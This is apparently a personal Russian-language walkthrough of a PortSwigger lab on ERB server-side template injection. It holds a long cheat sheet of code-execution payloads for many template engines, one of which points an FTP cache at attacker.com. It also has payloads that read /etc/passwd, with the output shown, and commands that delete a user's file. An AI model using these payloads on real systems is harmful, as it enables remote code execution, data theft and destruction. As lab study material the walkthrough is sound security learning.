



#### Basic server-side template injection
лаба https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic

в лабе небезопасная конструкция шаблона ERB
здание: 
1 - просмотрите документацию ERB
2 - понять - как выполнять произвольный код
3 - удалить `morale.txt` файл из домашнего каталога Карлоса

-----------

на одной из стр - был запрос в карте сайта

```http
GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock777777 HTTP/2
Host: 0ad800d804d207098185c54c00610050.web-security-academy.net
Cookie: session=5PSUJOnUPplIdYtk2WxS9YioHCrHNeLn
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0ad800d804d207098185c54c00610050.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

```html
<div>
Unfortunately this product is out of stock777777
</div>
```

и мои семерочки (7777777) отразилиьс внутри html
и как-бы напрашивается проверка на XSS , но тема лабы другая вообще!

---------

попробую выполнить код, через эту строку!
пейлоады возьму эти, вот от сюда [[0_theory_Server-Side-Template-Injection-(SSTI)]]
и запущу турбоинтрудер, дабы время экономить

```c

## Python (Jinja2)

{{7*7}}  
{{7*'7'}}  
{{config}}  
{{self}}  
{{self.**class**.**mro**}}  
{{self.**class**.**mro**[1].**subclasses**()}}  
{{self.**init**.**globals**.**builtins**}}  
{{''.**class**.**mro**[1].**subclasses**()}}  
{{''.**class**.**mro**[1].**subclasses**()[132]}}%20для%20поиска%20os._wrap_close  
{{''.**class**.**mro**[1].**subclasses**()[132].**init**.**globals**['popen'](https://'id'/).read()}}  
{{request.application.**globals**.**builtins**.**import**('os').popen('id').read()}}  
{{request.**init**.**globals**['**builtins**'].**import**('os').popen('id').read()}}  
{{().**class**.**bases**[0].**subclasses**()[132].**init**.**globals**['popen'](https://'id'/).read()}}  
{%20for%20x%20in%20().**class**.**bases**[0].**subclasses**()%20%}{%20if%20'warning'%20in%20x.**name**%20%}{{x()._module.**builtins**['**import**'](https://'os'/).popen('id').read()}}{%20endif%20%}{%20endfor%20}

## Python (Mako)

<%25%20import%20os%20%25>  
<%25%20x=os.popen('id').read()%20%25>  
${x}  
<%25%20print(os.popen('id').read())%20%25>  
${**import**('os').popen('id').read()}  
${**builtins**.**import**('os').popen('id').read()}

## PHP (Twig)

{{7*7}}  
{{7*'7'}}  
{{_self}}  
{{_self.env}}  
{{_self.env.registerUndefinedFilterCallback("exec")}}  
{{_self.env.getFilter("id")}}  
{{_self.env.registerUndefinedFilterCallback("system")}}  
{{_self.env.getFilter("id")}}  
{{_self.env.setCache("ftp://[attacker.com](https://attacker.com/)")}}  
{{["id"]|map("system")}}  
{{["id"]|filter("system")}}  
{{app.request.server.get('HTTP_USER_AGENT')}}  
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}

## PHP (Smarty)

{$smarty.version}  
{php}echo%20system('id');{/php}  
{php}echo%20file_get_contents('/etc/passwd');{/php}  
{literal}{/literal}{php}echo%20system('id');{/php}  
{$smarty.template_object->smarty->enableSecurity()->display('string:{php}echo%20system("id");{/php}')}  
{if%20phpinfo()}{/if}  
{if%20system('id')}{/if}

## Ruby (ERB)

<%= 7*7 %>  
<%= system('id') %>  
<%= File.read('/etc/passwd') %>  
<%= %x(id) %>  
<%= open('|id').read %>  
<%= IO.popen('id').read %>  
<%= Dir.entries('/') %>  
<%= File.open('/etc/passwd').read %>

## Java (Freemarker)

${7*7}  
${7*'7'}  
${.vars}  
${.data_model}  
${.version}  
${.main}  
${.current_template_name}  
<#assign%20ex="freemarker.template.utility.Execute"?new()>${ex("id")}  
${"freemarker.template.utility.Execute"?new()("id")}  
${.vars["freemarker.template.utility.Execute"]?new()("id")}  
${.vars["java.lang.Runtime"].getRuntime().exec("id")}  
${.vars["java.lang.System"].getenv()}  
${.vars["java.lang.System"].getProperty("[os.name](https://os.name/)")}

## Java (Velocity)

#set($x=7*7)  
$x  
#set($exec%20=%20$class.inspect("java.lang.Runtime").type.getRuntime().exec("id"))  
$exec  
$class.inspect("java.lang.Runtime").type.getRuntime().exec("id")  
$class.inspect("java.lang.ProcessBuilder").type.start()  
#set($str=$class.inspect("java.lang.String").type)  
#set($pb=$class.inspect("java.lang.ProcessBuilder").type.getConstructor($str.TYPE).newInstance(["id"]))  
$pb.start()

## Java (Thymeleaf)

${7*7}  
${T(java.lang.Runtime).getRuntime().exec('id')}  
${T(java.lang.System).getenv()}  
${T(java.lang.System).getProperty('user.dir')}  
${#ctx}  
${#vars}  
${#locale}  
${#request}  
${#response}

## JavaScript (Pug)

#{7*7}  
#{console.log(7*7)}  
#{process.mainModule.require('child_process').execSync('id')}  
#{global.process.mainModule.require('child_process').execSync('id')}  
#{this.constructor.constructor('return%20process')().mainModule.require('child_process').execSync('id')}

## JavaScript (EJS)

<%= 7*7 %>  
<%= process.mainModule.require('child_process').execSync('id') %>  
<%= global.process.mainModule.require('child_process').execSync('id') %>  
<%- process.mainModule.require('child_process').execSync('id') %>

## JavaScript (Handlebars)

{{7*7}}  
{{#with%20(lookup%20.%20"constructor")}}  
{{#with%20(lookup%20.%20"constructor")}}  
{{#with%20(lookup%20.%20"eval")}}  
{{#with%20(lookup%20.%20"process")}}  
{{#with%20(lookup%20.%20"mainModule")}}  
{{#with%20(lookup%20.%20"require")}}  
{{#with%20(lookup%20.%20"child_process")}}  
{{#with%20(lookup%20.%20"execSync")}}  
{{#with%20(lookup%20.%20"id")}}  
{{.}}  
{{/with}}  
{{/with}}  
{{/with}}  
{{/with}}  
{{/with}}  
{{/with}}  
{{/with}}  
{{/with}}  
{{/with}}

## Универсальные тестовые пэйлоады для определения движка

${7*7}  
{{7*7}}  
{{7*'7'}}  
<%=7*7%>  
_{7_7}  
#{7*7}  
${{7*7}}  
{{7*7}}<tag>  
<%=7*7%><tag>  
${7*7}<tag>  
_{7_7}<tag>  
#{7*7}<tag>  
${{7*7}}<tag>  
<%=foobar%>  
{{foobar}}  
${foobar}  
*{foobar}  
#{foobar}  
${{foobar}}

```

почти все пейлоады вот так тупо текстом отражались в html
(при этом, я умеренно, не пытался выйти за пределы тегов, мест - куда подставляются эти пейлоады)




один пейлоад `GET /?message=<%=foobar%> HTTP/1.1`
вызвал 500 ошибку
```q
<p class=is-warning>(erb):1:in `&lt;main&gt;&apos;: undefined 

local variable or method `foobar&apos; for main:Object (NameError)
	
	from /usr/lib/ruby/2.7.0/erb.rb:905:in `eval&apos;
	from /usr/lib/ruby/2.7.0/erb.rb:905:in `result&apos;
	from -e:4:in `&lt;main&gt;&apos;</p>
	
```

получаю инфу, что здесь стоит ruby/2.7.0


---------
также видно, что вот этот пейлоад 
`GET /?message=<%=7*7%><tag> HTTP/1.1`



вот шпора по руби
### Ruby (ERB)
```c
<%= system('id') %>
<%= File.read('/etc/passwd') %>
<%= `id` %>
```

----------
шпора прекрасно отрабатывает! запрсо с :
`<%= File.read('/etc/passwd') %>` и вот ответ
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
...........
.....
..
.
```




-----

значит - можно тупо выполнить там любой код
в том числе и удалить файл morale.txt в доманшнем каталоге карлоса!

----

варианты пейлоадов для делита
```c

<%= system('rm /home/carlos/morale.txt') %>

<%= `rm /home/carlos/morale.txt` %>

<%= %x(rm /home/carlos/morale.txt) %>

<%= File.delete('/home/carlos/morale.txt') %>

<%= require 'fileutils'; FileUtils.rm('/home/carlos/morale.txt') %>


<%= File.delete('/home/carlos/morale.txt') %>

<%= File.delete('~/morale.txt') %>

<%= File.delete(File.expand_path('~/morale.txt')) %>

```

---------

`<%= system('rm /home/carlos/morale.txt') %>` первый сработал!
файл удален!

-----

#### выводы и защита:

ни валидации!
ни защиты!
рут доступ к шел откуда угодно!
делай что - хочу!

скорее всего - разработчик сконкатенировал пользовательский ввод в шаблон ERB (руби шаблонизатор) вместо того чтобы передать его как параметр,
возможно-
вместо безопасного 
`render("message: #{message}", {message: user_input})` 
он сделал что-то вроде 
`render("message: " + user_input)`

так что, рут доступ каждому посетителя сайта - это сильно

ну и нельзя конкатенировать параметры, так как -можно легко подставить свой код, также как при sqli
